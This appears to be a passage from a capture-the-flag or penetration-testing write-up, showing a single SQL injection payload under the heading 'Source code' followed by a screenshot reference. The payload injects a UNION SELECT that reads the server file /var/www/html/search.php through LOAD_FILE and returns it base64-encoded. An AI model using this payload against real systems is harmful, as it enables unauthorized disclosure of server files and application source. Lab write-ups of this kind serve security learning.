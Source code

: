 ```
' UNION SELECT 1, TO_BASE64(LOAD_FILE('/var/www/html/search.php')), 3, 4-- -
```

<figure><img src="../.gitbook/assets/image (1702).png" alt=""><figcaption></figcaption></figure>
